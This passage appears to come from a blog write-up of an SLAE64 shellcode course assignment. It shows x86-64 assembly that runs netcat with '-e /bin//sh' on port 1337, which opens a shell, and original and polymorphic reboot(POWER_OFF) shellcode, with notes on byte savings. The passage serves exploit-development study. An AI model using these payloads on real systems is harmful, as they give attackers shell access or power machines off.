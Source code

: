     push    r11
    mov rbx,0x68732f2f6e69622f
    push    rbx
    mov rbx,rsp

    push    word 0x652d
    mov rcx,rsp

    push    dword 0x37333331
    mov r9,rsp

    push    r11
    mov r10, 0x30302e302e302e30     ;localhost cheat
    push    r10
    mov r10,rsp

    push    r11  ;push NULL - this stuff is same same but diff registers
    push    rbx  ;push address of '/bin//sh'
    push    rcx  ;push address of '-e'
    push    r9  ;push address of '1337'
    push    r10   ;push address of 'ip'
    push    rdi  ;push address of '/bin//nc'

    mov rdx,r11
    mov     rsi,rsp
    mov     al,59
    syscall

One other interesting thing is since I am connecting to localhost, I actually passed "00.0.0.0" to the IP argument to save bytes, it works just fine.

This time, we actually decreased the length, from 109 to 86 bytes:

![nc](/static/blog/2018/SLAE64/6/poly_nc_revshell.png)

###reboot(POWER_OFF)

Here is the original shellcode:

    section .text
    global _start

    _start:
      mov     edx, 0x4321fedc
      mov     esi, 0x28121969
      mov     edi, 0xfee1dead
      mov     al,  0xa9
      syscall

This shellcode was so short, essentially just one syscall, so modifying it to appear quite different in terms of instructions was quick. The original was 19 bytes, so we had up to 28 bytes to work with in the polymorphic version. I really just replaced the `mov` instructions with `push` and `pop`s. The other main alteration I made was discovering Linux allows different magic numbers to be passed as the second argument to the `reboot` syscall - very convenient for this assignment to add some extra transform (the numbers in hex are actually Linus' and his daughters' birthdays apparently (0x16041998 for example)). My final shellcode:
